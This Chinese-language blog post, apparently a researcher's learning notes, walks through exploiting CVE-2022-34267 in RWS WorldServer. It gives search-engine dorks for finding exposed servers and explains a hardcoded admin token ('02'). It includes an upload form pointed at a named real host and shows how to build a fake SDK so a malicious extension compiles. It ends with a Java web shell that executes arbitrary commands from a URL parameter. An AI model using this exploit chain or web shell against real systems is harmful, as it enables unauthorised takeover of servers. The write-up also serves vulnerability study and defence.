





CVE-2022-34267 SDL WorldServer 身份认证绕过 RCE
- date
- 2023-11-15 12:47:44
漏洞信息
漏洞名称：CVE-2022-34267 SDL WorldServer 身份认证绕过 RCE
产品：RWS WorldServer
搜索语法：
- FOFA：icon_hash="1129570087"
- Hunter：web.icon=="b774528f2f5c4a7ed046f40eebf51954"
- QUAKE：favicon: "b774528f2f5c4a7ed046f40eebf51954"
漏洞详情
其通过 FFUF 对 /ws-api/v2/info?token= 的 token 进行 FUZZ 发现了当 token 为 02 时就是一个系统管理员的身份，这可能是程序员留下了的后门：
| public static boolean isSystemSessionToken(String token) {
return (token != null && token.trim().equals(String.valueOf(2)));
}
|
那么就导致了可利用 api 进行操作，最终其实现 RCE 的方法是去自定义 API 拿 shell：
RWS Documentation
这里可以通过向 <protocol>://<ws-host>：<ws-port>/ws-api/v1/customizations/api？token=<sessionId> 端点发现 POST 请求上传 jar 文件来实现。
上传表单：
| </!DOCTYPE html>
<html>
<head>
<title>file upload</title>
</head>
<body>
<h2>hello</h2>
<form action="https://wsdev.spartansoftwareinc.com/ws-api/v2/customizations/api?token=02" method="post" enctype="multipart/form-data">
<input type="file" name="file"/>
<input type="submit" value="Submit" />
</form>
</body>
</html>
|
但是制作 jar 需要有这个 wssdk ：

我们只需要实现一个假的 com.idiominc.wssdk.WSContext 然后在 maven 中进行本地引入即可。

制作一个假的：


maven package 为 jar 包。
放到 resources 目录下 本地引入 ：
| <dependency>
<groupId>com.sdl.lt.worldserver</groupId>
<artifactId>wssdk</artifactId>
<version>1.0</version>
<scope>system</scope>
<systemPath>${basedir}\src\main\resources\wssdk-1.0-SNAPSHOT.jar</systemPath>
</dependency>
|
根据 API 文档引入指定版本的 spring-webmvc
| <dependency>
<groupId>org.springframework</groupId>
<artifactId>spring-webmvc</artifactId>
<version>4.1.7.RELEASE</version>
<scope>provided</scope>
</dependency>
|
打包上传

然后不知道怎么触发 ...
没找到相关文档，试了几次发现访问 /ws-api/extensions/shell/clients 即可触发。
使用 GPT 写带参数并且成有回显的：
| package com.sdl.lt.worldserver.customizations.newextension;
import com.idiominc.wssdk.WSContext;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RestController;
import java.io.BufferedReader;
import java.io.InputStreamReader;
@RestController
@RequestMapping("/extensions/shell")
public class NewExtension {
@Autowired
private WSContext context;
@RequestMapping(value = "/clients", method = {RequestMethod.GET})
public String shell(@RequestParam(value = "cmd", defaultValue = "") String cmd) {
// 检查cmd参数是否为空
if (cmd.isEmpty()) {
return "PoC - Remote Code Execution";
}
StringBuilder output = new StringBuilder();
Process p;
try {
// 执行命令
p = Runtime.getRuntime().exec(cmd);
p.waitFor();
BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
String line;
while ((line = reader.readLine()) != null) {
output.append(line).append("\n");
}
} catch (Exception e) {
return "Error executing command: " + e.getMessage();
}
return output.toString();
}
}
|
学习总结
- session 这个东西竟然可以去尝试 FUZZ
- 不要死跟着博客的利用，因为就是找不到这个 sdk，而需要它的原因就是让 jar 打包成功，那么就可以尝试自己写一个假的去测试
参考链接
- https://www.triskelelabs.com/vulnerabilities-in-rws-worldserver
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}